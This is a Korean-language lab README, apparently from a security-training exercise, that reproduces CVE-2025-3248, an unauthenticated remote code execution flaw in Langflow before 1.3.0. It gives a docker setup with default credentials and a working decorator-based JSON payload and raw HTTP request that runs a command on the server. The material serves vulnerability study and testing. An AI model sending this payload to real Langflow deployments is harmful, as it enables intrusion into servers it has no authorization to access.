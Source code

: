 # Langflow `validate/code` API 인증 없이 원격 코드 실행 (CVE-2025-3248)
> 화이트햇 스쿨 3기 - 이찬휘 ([`@iChanee`](https://github.com/iChanee))

<br>

[中文版本(Chinese version)](README.zh-cn.md) | [English version](README.en.md)

---

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, Python 기반의 웹 인터페이스를 통해 시각적으로 AI 기반 에이전트 및 파이프라인을 구성할 수 있습니다.

Langflow 1.3.0 이전 버전에는 치명적인 인증되지 않은 원격 코드 실행 취약점(CVE-2025-3248)이 존재합니다.  
취약한 엔드포인트(`/api/v1/validate/code`)는 사용자가 제출한 Python 코드를 `ast` 모듈로 파싱한 후 `exec`를 이용해 함수 정의를 실행합니다.  
하지만 Python의 decorator 및 기본 인자(default argument)는 함수 정의 시점에 함께 실행되므로, 이를 통해 임의의 코드를 삽입해 실행할 수 있습니다.

- **취약점 종류**: `Pre-auth Remote Code Execution`  
- **CVE ID**: `CVE-2025-3248`  
- **영향 버전**: `Langflow < 1.3.0`

공격자는 악의적으로 조작된 함수 정의를 보내며, decorator 또는 기본 인자를 이용해 코드를 주입함으로써 서버 권한으로 명령어를 실행할 수 있습니다.

## 참고 자료

- [horizon3.ai 분석 보고서](https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/)
- [Langflow 1.3.0 릴리즈](https://github.com/langflow-ai/langflow/releases/tag/1.3.0)
- [관련 Pull Request](https://github.com/langflow-ai/langflow/pull/6911)

---

<br>

## 환경 구성
### 사용 기술 및 환경

- Docker
- docker-compose
- Langflow 1.2.0 이미지
- Burp Suite (PoC 전송용)

<br>

### 실행 명령어

```bash
docker compose up -d
```
![](docker_up.jpg)

서버가 시작되면, Langflow 웹 인터페이스는 http://your-ip:7860 에서 접근할 수 있습니다.
기본 로그인 자격 증명은 administrator:vulhub 입니다.


## 환경 실행 후 Langflow 인터페이스 확인
### Langflow 로그인 화면

![Langflow 로그인](Langflow_interface_login.jpg)

<br>

### Langflow 프로젝트 화면

![Langflow 프로젝트](Langflow_interface_main.jpg)


서버가 시작되면, Langflow 웹 인터페이스는 `http://your-ip:7860` 에서 접근할 수 있습니다.  
기본 로그인 자격 증명은 `administrator:vulhub` 입니다.

<br>

## 취약점 재현
### 요청 정보

- URL: http://localhost:7860/api/v1/validate/code
- Method: POST
- Content-Type: application/json

<br>

### 공격 Payload
``` json
{
  "code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"
}
```

해당 취약점을 재현하려면 `/api/v1/validate/code` 엔드포인트에 악의적으로 조작된 Python 함수 정의를 담은 POST 요청을 전송하면 됩니다.  
예를 들어, 아래 payload는 decorator를 통해 서버에서 `id` 명령어를 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

<br>

## Burp Suite를 이용해 위 요청을 보낸 결과: 
![](burp_poc.jpg)
